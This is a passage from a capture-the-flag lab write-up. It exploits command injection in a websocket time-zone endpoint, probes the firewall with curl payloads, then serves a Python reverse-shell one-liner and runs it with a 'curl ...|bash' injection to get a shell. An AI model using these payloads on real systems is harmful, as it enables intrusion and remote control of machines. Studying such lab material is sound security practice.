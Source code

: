 
And the second part establishes a websocket connection to the `ws://10.10.131.31:4346/ws` endpoint, sends the user's time zone every second, and then the return value is used to display the time at the top left corner of the page.

```js
const wsUri = `ws://${location.host}/ws`;
socket = new WebSocket(wsUri);
let tz = Intl.DateTimeFormat().resolvedOptions().timeZone;
socket.onmessage = e => document.querySelector(".time").innerText = e.data, setInterval((() => socket.send(tz)), 1e3);
````

We can check out the websocket communication using BurpSuite's `WebSockets history` tab and easily interact with it using the `Repeater` tab.

![Web 4346 Websocket](web_4346_websocket.webp){: width="1200" height="600" }

Trying a simple command injection payload, we see that we are able to execute commands.

![Web 4346 Websocket Command Injection](web_4346_websocket_command_injection.webp){: width="1300" height="450" }

Testing for the firewall before trying to get a shell with a couple of common ports like `UTC;curl 10.11.72.22:<port>;`, we can see that the server is only able to reach out to us on ports `80` and `443`.

```console
$ sudo tcpdump -i tun0 -n tcp and port not 4346
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:38:16.913457 IP 10.10.131.31.42462 > 10.11.72.22.80: Flags [S], seq 2298109106, win 62727, options [mss 1288,sackOK,TS val 1100878518 ecr 0,nop,wscale 7], length 0
02:38:16.913686 IP 10.11.72.22.80 > 10.10.131.31.42462: Flags [R.], seq 0, ack 2298109107, win 0, length 0
02:38:23.485653 IP 10.10.131.31.59410 > 10.11.72.22.443: Flags [S], seq 322225138, win 62727, options [mss 1288,sackOK,TS val 1100885090 ecr 0,nop,wscale 7], length 0
02:38:23.485741 IP 10.11.72.22.443 > 10.10.131.31.59410: Flags [R.], seq 0, ack 322225139, win 0, length 0
```

We can use this to serve a reverse shell payload on port `80` and catch it on port `443`.

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                     

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{: .wrap }

And now with the `UTC;curl 10.11.72.22|bash;` payload, we get a shell as the `gilbert` user.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.131.31 - - [20/Jul/2024 02:46:58] "GET / HTTP/1.1" 200 -
```
